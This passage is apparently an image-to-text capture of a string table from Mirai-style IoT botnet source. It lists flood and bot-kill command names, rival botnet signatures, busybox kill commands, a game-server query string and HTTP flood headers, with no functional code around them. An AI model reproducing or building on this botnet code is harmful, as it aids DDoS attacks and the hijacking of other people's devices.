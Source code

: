```
            "2\u0000",
            "3\u0000",
            "4\u0000",
            "5\u0000",
            "6\u0000",
            "7\u0000",
            "8\u0000",
            "9\u0000",
            "10\u0000",
            "+std\u0000",
            "+stop\u0000",
            "+unknown\u0000",
            "-tcp\u0000",
            "-stop\u0000",
            "-udp\u0000",
            "-botkill\u0000",
            "-scanner\u0000",
            "-killdabot\u0000",
            "FUCKOFF\u0000",
            "SC\u0000",
            "ON\u0000",
            "OFF\u0000",
            "BOTKILL\u0000",
            "FASTLOAD\u0000",
            "SSH\u0000",
            "UPDATE\u0000",
            "ENABLE\u0000",
            "B_KILL\u0000",
            "KT\u0000",
            "LOAD\u0000",
            "PYTHON\u0000",
            "RANGE\u0000",
            "BOTKILLER\u0000",
            "SCAN\u0000",
            "SPOOF\u0000",
            "KILLSUB\u0000",
            "TABLE\u0000",
            "GETLOCALIP\u0000",
            "GETPUBLICIP\u0000",
            "\\x58\\x4D\\x4E\\x4E\\x43\\x50\\x46\\x22\u0000",
            "zollard\u0000",
            "GETLOCALIP\u0000",
            "MIRAI\u0000",
            "ECCHI\u0000",
            "KAMI\u0000",
            "FIN\u0000",
            "shell\u0000",
            "enable\u0000",
            "system\u0000",
            "sh\u0000",
            "/bin/busybox KIRA\u0000",
            "KIRA: applet not found\u0000",
            "ncorrect\u0000",
            "/bin/busybox ps\u0000",
            "/bin/busybox kill -9 \u0000",
            "TSource Engine Query\u0000",
            "/etc/resolv.conf\u0000",
            "nameserver \u0000",
            "Connection: keep-alive\u0000",
            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\u0000",
            "Accept-Language: en-US,en;q=0.8\u0000",
            "Content-Type: application/x-www-form-urlencoded\u0000",
```